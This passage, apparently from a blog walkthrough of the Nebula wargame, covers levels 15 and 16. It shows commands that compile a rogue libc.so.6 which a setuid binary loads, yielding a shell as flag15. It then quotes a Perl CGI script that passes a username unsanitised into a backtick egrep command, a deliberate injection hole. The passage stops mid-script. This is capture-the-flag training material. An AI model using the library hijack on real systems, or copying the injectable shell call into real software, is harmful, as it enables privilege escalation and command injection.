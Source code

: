 {% highlight console %}
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
{% endhighlight %}

What? I realise we are slowly approaching the limits of my capabilities of dealing with Linux's demands. I searched around and found out about [version scripts](http://ftp.gnu.org/old-gnu/Manuals/ld-2.9.1/html_node/ld_25.html). Let's hope it works

{% highlight console %}
level15@nebula:/var/tmp/flag15$ cat version
GLIBC_2.0 { };
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c -Wl,--version-script=version
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
{% endhighlight %}

*sigh* - symbol `system` is missing. Ok, let's just build it statically and wrap it all up so we've got everything we need. From `man gcc`

> **-static-libgcc**
>           On systems that provide libgcc as a shared library, these options force the use of either the shared or 
>           static version respectively.  If no shared version of libgcc
>           was built when the compiler was configured, these options have no effect.

So really we can also get rid of our implementation of `__cxa_finalize` as it's all statically linked now.

{% highlight console %}
level15@nebula:/var/tmp/flag15$ gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic -o libc.so.6 mylibc.c
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
sh-4.2$ whoami
flag15
sh-4.2$ getflag
You have successfully executed getflag on a target account
{% endhighlight %}

## Level 16 ##

> There is a perl script running on port 1616.

{% highlight perl %}
#!/usr/bin/env perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub login {
  $username = $_[0];
  $password = $_[1];

  $username =~ tr/a-z/A-Z/;  # conver to uppercase
  $username =~ s/\s.*//;    # strip everything after a space

  @output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
  foreach $line (@output) {
    ($usr, $pw) = split(/:/, $line);
  
